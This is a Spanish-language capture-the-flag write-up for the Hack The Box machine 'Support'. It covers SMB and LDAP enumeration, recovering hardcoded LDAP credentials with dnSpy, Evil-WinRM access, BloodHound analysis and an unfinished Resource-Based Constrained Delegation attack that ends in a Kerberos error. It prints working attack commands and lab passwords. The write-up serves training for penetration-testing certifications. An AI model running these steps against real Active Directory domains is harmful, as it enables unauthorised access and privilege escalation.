






## Información Básica

### Técnicas vistas

- SMB Enumeration
- EXE Binary Analysis
- Debugging with DNSpy
- Setting breakpoints and getting an LDAP password in clear text (DNSpy)
- Ldap Enumeration (ldapsearch)
- Information Leakage
- Abusing Remote Management Users group (Evil-WinRM)
- SharpHound + BloodHound Enumeration
- Abusing Shared Support Accounts (GenericAll) (rbcd Attack) [Resource Based Constrained Delegation]
- Resource Based Constrained Delegation Attack - Creating a Computer Object (powermad.ps1)
- Resource Based Constrained Delegation Attack - PowerView.ps1
- Resource Based Constrained Delegation Attack - Getting the impersonated service ticket (getST.py)
- Using the ticket to gain Administrator access [Privilege Escalation]

### Preparación

- OSCP
- OSEP
- eCPPTv3
- Active Directory

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash wrap=false
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.174 -oG nmap/allPorts 
```

| Parámetro           | Descripción                                                                                  |
| ------------------- | -------------------------------------------------------------------------------------------- |
| `-p-`               | Escanea **todos los puertos** (1-65535).                                                     |
| `--open`            | Muestra **solo puertos abiertos**.                                                           |
| `-sS`               | Escaneo **SYN** (rápido y sigiloso).                                                         |
| `--min-rate 5000`   | Envía al menos **5000 paquetes por segundo** para acelerar el escaneo.                       |
| `-vvv`              | Máxima **verbosidad**, muestra más detalles en tiempo real.                                  |
| `-n`                | Evita resolución DNS.                                                                        |
| `-Pn`               | Asume que el host está activo, **sin hacer ping** previo.                                    |
| `10.10.11.174`       | Dirección IP objetivo.                                                                       |
| `-oG nmap/allPorts` | Guarda la salida en formato **grepable** para procesar con herramientas como `grep` o `awk`. |

```txt wrap=false
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49676/tcp open  unknown          syn-ack ttl 127
49688/tcp open  unknown          syn-ack ttl 127
49693/tcp open  unknown          syn-ack ttl 127
49715/tcp open  unknown          syn-ack ttl 127
```

Ahora con la función **extractPorts**, extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash title="Función de S4vitar"
extractPorts () {
	ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')" 
	ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)" 
	echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
	echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
	echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
	echo $ports | tr -d '\n' | xclip -sel clip
	echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
	/bin/batcat --paging=never extractPorts.tmp
	rm extractPorts.tmp
}
```

```bash wrap=false
nmap -sVC -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49676,49688,49693,49715 10.10.11.174 -oN nmap/targeted
```

| Parámetro           | Descripción                                                                          |
| ------------------- | ------------------------------------------------------------------------------------ |
| `-sV`               | Detecta la **versión** de los servicios que están corriendo en los puertos abiertos. |
| `-C`                | Ejecuta **scripts NSE de detección de versiones y configuración**.                   |
| `-p`                | Escanea únicamente los puertos seleccionados.                                        |
| `10.10.11.174`       | Dirección IP objetivo.                                                               |
| `-oN nmap/targeted` | Guarda la salida en **formato normal** en el archivo indicado.                       |

```txt wrap=false
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-08 21:17:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-10-08T21:18:33
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

### SMB

Primero enumeraremos el servicio `SMB`:

```bash wrap=false
❯ crackmapexec smb 10.10.11.174
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
❯ smbclient -L 10.10.11.174 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	support-tools   Disk      support staff tools
	SYSVOL          Disk      Logon server share

❯ smbclient //10.10.11.174/support-tools -N
Try "help" to get a list of possible commands.
smb: \> ls  
  .                                   D        0  Wed Jul 20 19:01:06 2022
  ..                                  D        0  Sat May 28 13:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 13:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 13:19:55 2022
  putty.exe                           A  1273576  Sat May 28 13:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 13:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 19:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 13:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 13:19:43 2022

		4026367 blocks of size 4096. 959364 blocks available
smb: \> get UserInfo.exe.zip
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip (170,9 KiloBytes/sec) (average 170,9 KiloBytes/sec)
```

Nos descargamos `UserInfo.exe.zip` y lo descomprimimos ya que me llama la atención:

```bash wrap=false
❯ unzip UserInfo.exe.zip
Archive:  UserInfo.exe.zip
  inflating: UserInfo.exe            
  inflating: CommandLineParser.dll   
  inflating: Microsoft.Bcl.AsyncInterfaces.dll  
  inflating: Microsoft.Extensions.DependencyInjection.Abstractions.dll  
  inflating: Microsoft.Extensions.DependencyInjection.dll  
  inflating: Microsoft.Extensions.Logging.Abstractions.dll  
  inflating: System.Buffers.dll      
  inflating: System.Memory.dll       
  inflating: System.Numerics.Vectors.dll  
  inflating: System.Runtime.CompilerServices.Unsafe.dll  
  inflating: System.Threading.Tasks.Extensions.dll  
  inflating: UserInfo.exe.config     
❯ ls
 CommandLineParser.dll                                       Microsoft.Extensions.Logging.Abstractions.dll   System.Runtime.CompilerServices.Unsafe.dll   UserInfo.exe.zip
 Microsoft.Bcl.AsyncInterfaces.dll                           System.Buffers.dll                              System.Threading.Tasks.Extensions.dll       
 Microsoft.Extensions.DependencyInjection.Abstractions.dll   System.Memory.dll                               UserInfo.exe                                
 Microsoft.Extensions.DependencyInjection.dll                System.Numerics.Vectors.dll                     UserInfo.exe.config
```

### EXE Binary Analysis

Debido a que este binario está creado para **Windows**, usaremos una máquina virtual para ejecutarlo y analizarlo. Nos lo pasaremos de nuestra máquina host a la virtual y lo ejecutamos:



Una vez aquí, descargaremos la herramienta `dnSpy` para ver el código:



Vemos una conexión por LDAP con el usuario `ldap` y la contraseña, para poder verla crearemos un **breakpoint** justo en la conexión y leeremos el valor:



Ahora tenemos las credenciales `ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`, vamos a probarlas con la herramienta **crackmapexec**:

```bash wrap=false
❯ crackmapexec smb 10.10.11.174 -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

### Enumerating Users

Usaremos `rpcclient` para conectarnos y ver todos los usuarios, además de guardárnos los en un archivo con el siguiente comando:

```bash wrap=false
❯ rpcclient -U 'ldap%nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.10.11.174 -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v 0x | tr -d '[]'
Administrator
Guest
krbtgt
ldap
support
smith.rosario
hernandez.stanley
wilson.shelby
anderson.damian
thomas.raphael
levine.leopoldo
raven.clifton
bardot.mary
cromwell.gerard
monroe.david
west.laura
langley.lucy
daughtler.mabel
stoll.rachelle
ford.victoria
```

### LDAP Enum

Para enumerar este servicio, como siempre, recurriremos a [HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ldap.html#ldapsearch). De ahí sacaremos el siguiente comando: 

```bash wrap=false
❯ ldapsearch -x -H ldap://10.10.11.174 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
# extended LDIF
#
# LDAPv3
# base <DC=support,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# support.htb
dn: DC=support,DC=htb
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=support,DC=htb
instanceType: 5
whenCreated: 20220528110146.0Z
whenChanged: 20251011211720.0Z
subRefs: DC=ForestDnsZones,DC=support,DC=htb
subRefs: DC=DomainDnsZones,DC=support,DC=htb
subRefs: CN=Configuration,DC=support,DC=htb
uSNCreated: 4099
dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAA5VYBKcsiG0+bllUW2Ew2PA==
uSNChanged: 86045
...
```

Si filtramos por el usuario `support`, vemos esto:

```bash wrap=false 
❯ ldapsearch -x -H ldap://10.10.11.174 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | grep -i  'sAMAccountName: support' -B 40
dSCorePropagationData: 20220528111146.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 134046910995265501

# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
```

## Explotación

En el campo `info` parece haber una contraseña `Ironside47pleasure40Watchful`. Vamos a ver si es válido y que podemos hacer:

```bash wrap=false
❯ crackmapexec smb 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\support:Ironside47pleasure40Watchful 
❯ crackmapexec winrm 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'
SMB         10.10.11.174    5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
HTTP        10.10.11.174    5985   DC               [*] http://10.10.11.174:5985/wsman
WINRM       10.10.11.174    5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

Vamos a obtener una consola:

```bash wrap=false
❯ evil-winrm -u 'support' -p 'Ironside47pleasure40Watchful' -i 10.10.11.174
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
*Evil-WinRM* PS C:\Users\support> cd Desktop
*Evil-WinRM* PS C:\Users\support\Desktop> dir


    Directory: C:\Users\support\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---        10/11/2025   2:18 PM             34 user.txt


*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
6fa53032c77574ae4b9...
```

## Escalada de privilegios

Vamos a usar el comando `whoami /all` para ver si tenemos algún privilegio:

```bash wrap=false
*Evil-WinRM* PS C:\Users\support\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== =============================================
support\support S-1-5-21-1677581083-3380853377-188903654-1105


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
SUPPORT\Shared Support Accounts            Group            S-1-5-21-1677581083-3380853377-188903654-1103 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Estamos en el grupo `Shared Support Accounts`, pero por el resto, no vemos nada interesante. Vamos a usar `bloodhound`, junto con `sharphound` para explorar distintos vectores de ataque.

```bash wrap=false intitle='Máquina Atacante'
❯ sharphound -h

> sharphound ~ for BloodHound CE collector

/usr/share/sharphound
├── SharpHound.exe
├── SharpHound.exe.config
├── SharpHound.pdb
└── SharpHound.ps1
❯ cp /usr/share/sharphound/SharpHound.exe .
```

```bash wrap=false intitle='Máquina Víctima'
*Evil-WinRM* PS C:\Users\support\Documents> upload ./exploits/SharpHound.exe
                                        
Info: Uploading /home/zelpro/HTB/Support/exploits/SharpHound.exe to C:\Users\support\Documents\SharpHound.exe
                                        
Data: 1748308 bytes of 1748308 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\support\Documents> ./SharpHound.exe -c All
2025-10-18T08:54:02.0572354-07:00|INFORMATION|This version of SharpHound is compatible with the 5.0.0 Release of BloodHound
2025-10-18T08:54:02.2603392-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, UserRights, CARegistry, DCRegistry, CertServices, LdapServices, WebClientService, SmbInfo, NTLMRegistry
2025-10-18T08:54:02.3072414-07:00|INFORMATION|Initializing SharpHound at 8:54 AM on 10/18/2025
2025-10-18T08:54:02.3384574-07:00|INFORMATION|Resolved current domain to support.htb
2025-10-18T08:54:02.8854052-07:00|INFORMATION|Loaded cache with stats: 16 ID to type mappings.
 0 name to SID mappings.
 1 machine sid mappings.
 3 sid to domain mappings.
 0 global catalog mappings.
2025-10-18T08:54:02.9009774-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, UserRights, CARegistry, DCRegistry, CertServices, LdapServices, WebClientService, SmbInfo, NTLMRegistry
2025-10-18T08:54:03.0415893-07:00|INFORMATION|Beginning LDAP search for support.htb
[...]
2025-10-18T08:54:04.6509512-07:00|INFORMATION|Beginning LDAP search for support.htb Configuration NC
2025-10-18T08:54:05.2915802-07:00|INFORMATION|Producer has finished, closing LDAP channel
2025-10-18T08:54:05.2915802-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-10-18T08:54:11.0259555-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2025-10-18T08:54:11.0572326-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2025-10-18T08:54:11.1822069-07:00|INFORMATION|Status: 312 objects finished (+312 39)/s -- Using 71 MB RAM
2025-10-18T08:54:11.1822069-07:00|INFORMATION|Enumeration finished in 00:00:08.1590336
2025-10-18T08:54:11.2759543-07:00|INFORMATION|Saving cache with stats: 16 ID to type mappings.
 0 name to SID mappings.
 1 machine sid mappings.
 3 sid to domain mappings.
 0 global catalog mappings.
2025-10-18T08:54:11.2759543-07:00|INFORMATION|SharpHound Enumeration Completed at 8:54 AM on 10/18/2025! Happy Graphing!
```

Ahora nos descargaremos el comprimido que nos ha generado y lo subiremos a `bloodhound`:



Seguido a esto, buscaremos con la herramienta **Path Finder** una posible ruta de escalada:




### Resource-Based Constrained Delegation attack

En el propio `bloodhound`, nos habla del ataque **RBCD**:



Como siempre en [HackTricks](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/resource-based-constrained-delegation.html), tenemos un artículo explicándonos el ataque. Primero nos descargaremos [Powermad.ps1](https://raw.githubusercontent.com/Kevin-Robertson/Powermad/refs/heads/master/Powermad.ps1) y se lo pasamos a la máquina víctima:

```bash wrap=false
*Evil-WinRM* PS C:\Users\support\Documents> upload ./exploits/Powermad.ps1
                                        
Info: Uploading /home/zelpro/HTB/Support/exploits/Powermad.ps1 to C:\Users\support\Documents\Powermad.ps1
                                        
Data: 180768 bytes of 180768 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\Powermad.ps1
```

Y simplemente seguimos los pasos, nos descargamos [Powerview.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1):

```bash wrap=false
*Evil-WinRM* PS C:\Users\support\Documents> upload ./exploits/PowerView.ps1
                                        
Info: Uploading /home/zelpro/HTB/Support/exploits/PowerView.ps1 to C:\Users\support\Documents\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Documents> $ComputerSid = Get-DomainComputer SERVICEA -Properties objectsid | Select -Expand objectsid
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
 
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer SERVICEA | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer SERVICEA -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```

Una vez hecho esto, siguiendo la guía de este [repo](https://github.com/tothi/rbcd-attack), usaremos `impacket-getST` para poder impresonarnos como admin:

```bash wrap=false
❯ impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/SERVICEA$:123456

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[-] Kerberos SessionError: KDC_ERR_BADOPTION(KDC cannot accommodate requested option)
[-] Probably SPN is not allowed to delegate by user SERVICEA$ or initial TGT not forwardable
```

Me da este error, por lo que la dejaremos en pendiente la escalada.

---